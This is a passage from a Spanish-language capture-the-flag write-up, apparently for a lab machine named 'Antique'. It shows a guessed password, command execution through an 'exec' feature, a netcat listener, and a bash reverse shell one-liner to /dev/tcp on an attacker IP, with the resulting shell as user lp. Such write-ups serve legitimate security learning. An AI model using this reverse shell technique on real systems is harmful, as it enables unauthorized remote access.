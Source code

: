 Probando combinaciones, vi que faltaba un tres en la contraseña.
`P@ssw0rd@123!!123`
![Write-up Image](images/Screenshot_2.png)

Enumerando lo que podía hacer, nos encontramos esta línea
`exec: execute system commands (exec id)`

```shell
exec id
uid=7(lp) gid=7(lp) groups=7(lp),19(lpadmin)
```

Ahora solo queda mandarnos una reverse shell.

Nos ponemos en escucha con `netcat` por el puerto 443.
```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
```

Nos mandamos la revshell...
```
> exec bash -c "bash -i >& /dev/tcp/10.10.14.18/443 0>&1"
```

```shell
$ sudo rlwrap -cEr nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.129.250.207] 56774
bash: cannot set terminal process group (1146): Inappropriate ioctl for device
bash: no job control in this shell
lp@antique:~$ whoami
whoami
lp
lp@antique:~$ 
```
